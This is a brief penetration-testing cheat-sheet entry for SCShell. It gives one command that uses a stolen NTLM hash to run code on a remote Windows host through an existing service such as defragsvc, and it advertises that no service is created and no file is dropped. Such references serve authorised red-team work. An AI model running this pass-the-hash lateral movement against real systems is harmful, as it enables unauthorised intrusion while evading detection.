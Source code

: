 # SCShell

% SCShell, psexec, sealthy, DCERPC

## stealty psexec
#plateform/linux #target/remote #cat/ATTACK/CONNECT 

no service created, no smb used, no file droped
https://github.com/Mr-Un1k0d3r/SCShell

```
python3 scshell.py -service-name <service-name|defragsvc> -hashes :<ntlm-hash> <domain>/<user>@<ip>
```
